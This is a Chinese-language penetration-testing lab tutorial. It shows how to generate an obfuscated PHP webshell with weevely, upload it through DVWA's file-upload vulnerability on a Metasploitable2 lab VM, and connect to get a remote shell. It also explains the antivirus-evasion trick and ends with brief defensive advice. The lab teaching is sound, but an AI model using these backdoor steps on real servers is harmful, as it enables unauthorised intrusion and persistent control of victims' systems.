




# Webshell 访问后门

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- Webshell 简介
- Weevely 介绍
- Webshell 实战
- Webshell 防范

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [weevely 的使用](https://github.com/epinna/weevely3/wiki)


## 5. Webshell 攻击

### 5.1 Webshell 简介

Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。在攻击入侵了一个网站后，通常会将 asp 或 php 后门文件与网站服务器根目录下正常的网页文件混在一起，然后就可以使用浏览器来访问 asp 或者 php 后门，得到一个命令执行环境，以达到控制网站服务器的目的。

顾名思义，web 的含义是显然需要服务器开放 web 服务，shell 的含义是取得对服务器某种程度上操作权限。webshell常常被称为入侵者通过网站端口对网站服务器的某种程度上操作的权限。由于 webshell 其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。（来自于百度百科）

通过 web 的加载使得目标主机与攻击机建立连接，并能够使用 shell 执行操作就是 webshell 的最主要目的了。

### 5.2 weevely 介绍

webshell 在上述的本地包含与远程包含的实验中我们有所提及，只是未作详细的介绍而已，我们通过以前的方式可以得知 webshell 只是一个用来与攻击机建立连接的动态脚本，而这样的脚本需要配合我们所讲过的 XSS、文件包含等一些基础的攻击方式来完成。

而 webshell 的实现也并不困难，大多都是在 php 中调用 system() 函数，通过 system() 函数接收命令作为参数，并在主机中执行且输出结果，与之类似的还有 exec()函数、shell_exec()函数、proc_open()函数等等。这是实现一句话的简单 webshell，可以执行一些简单的命令，但是无法进行交互，所以后来出现了更先进的方式 netcat 建立连接远程只是 shell 等一类的方式。

在本次实验中我们与以往不同的是我们需要使用一个新的工具：weevely 来完成此次的攻击实验。

Weevely 是一款非常有名的 PHP 木马生成工具，其也被叫做 PHP 菜刀，是一款使用 Python 语言编写的 WebShell 工具。Weevely 集 WebShell 生成和连接于一身。值得注意的是 Weevely 是在 Linux 下的一款工具，在 Windows 环境中将会有部分的模块无法使用。

什么是 weevely 呢？Weevely 是一个隐形的 PHP 网页的外壳，模拟的远程连接。这是一个 Web 应用程序后开发的重要工具，可用于像一个隐藏的后门，作为一个有用的远程控制台更换管理网络帐户，即使托管在免费托管服务。只是生成并上传目标 Web 服务器上的 PHP 代码，Weevely 客户端在本地运行 shell 命令传输。（此段来自于百度百科）


### 5.3 Webshell 环境

一切攻击的前提都是在于建立环境之上，所示实验的第一步也是起动实验环境。
在实验桌面中，双击 Xfce 终端，打开终端：


先让我们启动 Kali 虚拟机，启动 Kali 虚拟机程序，需要在终端中输入如下命令：

```
# 开启 Kali 虚拟机
sudo virsh start Kali

# 注意，Kali 中 K 为大写字母
ssh root@Kali
```


> 注意：等 Kali 启动，输入命令后，要等待一段时间，再对 Kali 进行连接，否则会得到如图中报错

等 Kali 虚拟机完全启动之后，再次执行命令：


就能够正常的登陆上 kali 的终端页面。

我们的攻击目标同样使用 Metasploitable2 的环境。

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


稍等片刻，待得虚拟机完全启动之后我们打开桌面上的 Firefox：


访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：


正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：


为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：


当看到页面的下方 Level 的显示变化后，说明修改成功了：


### 5.4 Webshell 实战

做好一切准备工作之后我们便开始我们的攻击。

我们的攻击主要是：

- 使用 weevely 生成 webshell 
- 通过上传漏洞上传 webshell
- 建立连接，远程操控，验证 webshell

所以我们第一步便是使用 weevely 生成 webshell。

在 kali 中输入 `weevely` 命令命令我们可以看到：



显示了 weevely 的版本信息，已经常用的参数用法：

```
# 连接 webshell 程序
weevely <URL> <password> [cmd]
 
# 加载 创建好的连接通道、session 会话
weevely session <path> [cmd]

# 生成 webshell 程序
weevely generate <password> <path>
```

所以首先我们需要做的便是通过 weevely generate 来生成我们的 webshell 文件：

```
weevely generate shiyanlou /var/www/html/webshell.php
```


这条命令中的各个参数，所代表的含义分别为：

| 参数名称                     | 参数代表含义                                                 |
| ---------------------------- | ------------------------------------------------------------ |
| `shiyanlou`                  | weevely 连接木马，创建会话，需要密码验证， `shiyanlou` 为连接会话时，所需要输入的密码。 |
| `/var/www/html/webshell.php` | 在攻击者的本地环境中，指定生成木马文件的具体位置，这里为 `/var/www/html/` 文件夹下，即 apache 的根目录中。 |

成功的执行命令执行命令之后，成功的生成后门文件会有这样的提示：

```
Generated backdoor with password 'shiyanlou' in '/var/www/html/webshell.php' of 1459 byte size.
```

提示中告诉我们成功生成后门文件，密码是什么，已经生成文件的位置以及大小。

通过 `ls -lah /var/www/html` 我们可以看到：


的确成功的生成了后门 webshell.php 文件。

通过 `less /var/www/html/webshell.php` 我们可以观察其源码：


我们可以看到代码显示的非常混乱，从变量名到格式等等，似乎有些看不懂的感觉，但这就是 weevely 的最大特点：隐蔽性。不论数据通道和控制通道，都做到很大程度的隐蔽，其生成的 webshell 程序，很难被安全工具发现。这样即使是有杀毒软件也很难会发现该程序是一个不安全的程序。

首先我们可以发现代码中的所有变量面都不是通俗易懂的命名，都是一些随机的大小写字母，这是其隐秘手段之一。

其次通过倒数第二行的代码：

```
$J=str_replace('*X','',$e.$t.$H.$n.$P.$O.$B.$s.$g.$x.$r.$L);
```

我们可以看到满篇的代码都包含着 `*X` 字符串，这是在生成源代码的时候，随机的在所有位置中插入这样的字符串，已达到欺骗杀软的效果，使得杀毒软件无法对比病毒库中实例从而来识别我们的代码是有危险的，而插入这样的字符也会使得 php 解析器也无法正常的执行，所以在末尾会使用 str_replace() 函数将指定的变量中所有的 `*X` 都替换成空，如此便能够正常的执行该文件，并且也不会被杀毒软件所识别。

多次使用 weevely 我们便会发现插入的干扰字符串每次都是不同的，例如本次的 `*X`，下次并不会是相同的。

通过 `q` 我们可以退出 less 的查看。

如此我们便完成了第一步，生成 webshell 的攻击程序，紧接着我们需要想方设法的使目标主机执行我们的程序，方法需要利用我们之前所学到的 XSS 或者文件包含等等方法。

在本次实验中我们利用最简单的方式便是上传漏洞。

我们打开 DVWA 为我们所提供环境：



因为我们的 kali 没有提供图形界面，我们没有办法在 kali 中上传我们呢的 webshell 到 DVWA 中，所以我们需要先将其下载到 shiyanlou 中，然后通过 shiyanlou 上传至 DVWA 中。

我们在 shiyanlou 终端中使用 `scp root@kali:/var/www/html/webshell.php ./` 命令来将 kali 中我们生成好的 webshell 文件下载至本地：


然后在 DVWA 为我们提供的上传漏洞平台中，我们点击浏览将我们的 webshell.php 上传至我们的目标服务器：



然后点击 `Upload` 将我们选择的文件上传至服务器。成功的上传让我们得到一个地址，并提示我们成功的上传了。

既然成功的在目标主机中埋下了雷，我们便可在 kali 中使用 weevely 中随时引爆它。

我们回到 kali 的终端中，我们使用 `weevely http://192.168.122.102/dvwa/hackable/uploads/webshell.php shiyanlou` 来与我们的“雷”建立连接，创建一个能够访问的通道--session。

其中 `http://192.168.122.102/dvwa/hackable/uploads/webshell.php` 表示的是我们上传的雷所在的位置，而 `shiyanlou` 是我们当时创建该文件时指定的建立连接的密码。

执行命令之后我们会得到这样的返回：


提供了我们一个 weevely 的交互，我们可以直接输入我们需要的命令，例如 `pwd`:



从图中我们可以看到本地的 weevely 与我们投放的 webshell 成功的建立了连接，并且我们发现我们成功的以 `www-data` 用户登陆上了目标主机。

由此我们便像 `ssh www-data@192.168.122.102` 一般登陆上了目标主机，在其中我们可以执行所有在权限范围之内的命令：


这便是 webshell，通过一个简单的脚本就能够使得攻击者如 ssh 一般登陆目标主机的 shell，执行各种各样的命令。

> **注意**：若是我们在执行 weevely 的时候遇到这样的错误：


我们需要通过 `rm -rf /root/.weevely` 命令来删除本地中的缓存即可

### 5.5 Webshell 防范

从以上的实践过程中我们可以发现，要使用 webshell 需要这样的一些条件：

- 首先要一个 payload，也就是我们埋在远程主机中的间谍，当然这个可以通过 weevely 生成，亦或者自己开发一个。
- 其次需要一个 upload 漏洞，亦或者能够让远程主机执行该文本文件的漏洞

攻击者生成的 payload 我们没有办法阻止，但是我们可以做到的便是让他没有办法上传至目标主机，即使让其上传至目标主机了，要与其攻击主机建立连接必须使用端口，所以 webshell 的防范方法便是：

- 加强代码逻辑的严谨，尽量让攻击者没有机会上传 webshell 的 payload 到目标主机中。
- 代码逻辑的严谨，我们只能尽量，所以我们可以通过防火墙尽量关闭不必要的端口，让 payload 没有办法与攻击者主机建立连接。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- Webshell 简介
- Webshell 实战
- Webshell 防范

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 7. 作业

1. 查阅资料，寻找与 weevely 类似生成 payload 文件的工具还有什么？